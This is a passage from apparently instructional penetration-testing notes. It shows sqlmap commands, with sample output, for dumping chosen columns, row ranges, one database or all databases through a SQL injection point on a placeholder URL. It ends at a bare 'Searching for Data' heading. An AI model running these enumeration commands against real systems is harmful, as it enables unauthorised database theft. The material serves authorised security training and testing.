 ### Table/Row Enumeration

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

### Full DB Enumeration
```bash

# dump from one database
sqlmap -u "http://www.example.com/?id=1" --dump -D testdb


# dump from all databases
sqlmap -u "http://www.example.com/?id=1" --dump-all

```

## Advanced DB Enumeration

### Searching for Data

